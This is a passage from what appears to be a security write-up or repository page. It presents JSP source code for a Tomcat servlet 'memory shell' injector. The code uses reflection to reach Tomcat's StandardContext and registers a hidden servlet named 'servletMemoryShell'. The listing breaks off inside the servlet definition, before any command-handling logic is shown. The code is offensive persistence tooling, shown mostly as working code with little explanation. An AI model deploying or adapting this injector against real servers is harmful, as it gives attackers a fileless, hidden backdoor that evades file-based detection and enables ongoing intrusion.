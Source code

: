 ![](img/6.png)

#### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    String servletMapping = standardContext.findServletMapping("servletMemoryShell");
    if (servletMapping != null) {
        return;
    }

    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName("servletMemoryShell");
    Servlet servletMemoryShell = new Servlet() {
        public void init(ServletConfig servletConfig) {
        }

        public ServletConfig getServletConfig() {
            return null;
        }
```
